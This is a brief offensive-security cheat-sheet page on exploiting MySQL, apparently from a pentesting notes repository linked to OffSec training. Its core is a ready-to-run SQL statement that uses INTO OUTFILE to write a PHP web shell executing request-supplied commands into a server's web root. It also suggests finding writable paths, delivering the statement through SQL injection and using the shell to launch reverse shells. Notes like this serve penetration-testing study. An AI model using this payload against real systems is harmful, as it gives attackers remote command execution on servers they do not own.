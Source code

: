 # Exploiting MySQL

You can "upload" reverse shells using MySQL using `INTO OUTFILE`:

```sql
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/cmd.php';
```

The path may require some brute-forcing or additional reconnaissance; sometimes you can force an error to return a (potentially) writeable path. Depending on how the application you're attacking is configured, it may be possible to exploit this via SQLi.

This can be used to bootstrap reverse shells.

* [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
* [SQL Injection](./SQL%20Injection.md)
